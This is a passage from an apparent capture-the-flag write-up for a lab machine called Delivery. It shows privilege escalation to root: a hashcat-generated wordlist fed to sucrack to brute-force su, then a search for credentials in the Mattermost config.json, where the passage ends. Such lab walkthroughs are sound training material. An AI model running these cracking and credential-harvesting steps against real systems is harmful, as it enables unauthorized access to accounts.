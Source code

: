 ```bash
the exact distribution terms for each program are described in the                                                    
individual files in /usr/share/doc/*/copyright.            

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent                                                     
permitted by applicable law.                               
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5       
-bash: warning: setlocale: LC_ALL: cannot change locale (en_GB.UTF-8)                                                                    
maildeliverer@Delivery:~$ whoami                           
maildeliverer                       
```

## Root
### Method 1 - Sucrack
Once we log in, following the previously discovered suggestion, we can try to use [hashcat to generate a wordlist](https://infinitelogins.com/2020/11/16/using-hashcat-rules-to-create-custom-wordlists/) based on the suggested password 'PleaseSubscribe!' and give this wordlist to sucrack in order to try to crack system accounts.  
To generate the dictionary we can use the following `hashcat` command:  
```bash
[root@kali Delivery ]$ hashcat pass_reuse.txt -r /usr/share/hashcat/rules/best64.rule --stdout > passwords.txt 
```
`pass_reuse.txt`  file, obviously contains, as only entry `PleaseSubscribe!` . 
the rule file `/usr/share/hashcat/rules/best64.rule` does a permutaion of the given password.  
Now that we have a dictionary we can use `sucrack`.  
Unfortunately, we cannot compile `sucrack` offline and ship and execute only the binary, since the compiler is complaining about some `gcc` dependencies.  
So we need to create an archive, upload the `sucrack` folder and compile it directly into the target machine.  
Once `sucrack` is ready, we can use sucrack against local accounts.  
```bash
maildeliverer@Delivery:/dev/shm/.work/sucrack/src$ ./sucrack passwords.txt                                            
166/1177                                                   
password is: PleaseSubscribe!21  
```
`sucrack` doesn't tell us for wich account password cracking was successful, so hoping the best of luck let's try to su as root:  
```bash
maildeliverer@Delivery:/dev/shm/.work/sucrack/src$ su -    
Password:                                                  
root@Delivery:~#   
```

### Method 2 - MySQL Hash Dump
Once we log in, as always we can llok around for possible configuration files that disclose credentials.  
We can start by looking into mattermost:  
```bash
maildeliverer@Delivery:~$ find / -name mattermost 2>/dev/null
/opt/mattermost
/opt/mattermost/bin/mattermost
/var/lib/mysql/mattermost
```
Now we can look int `/opt/mattermost` and see what we can find.  
as we change directory we can find a `config/` directory containing a `config.json` file which look very promising.  
Looking into the file, we can see the following credentials for mysql database:  
```json
"SqlSettings": {
```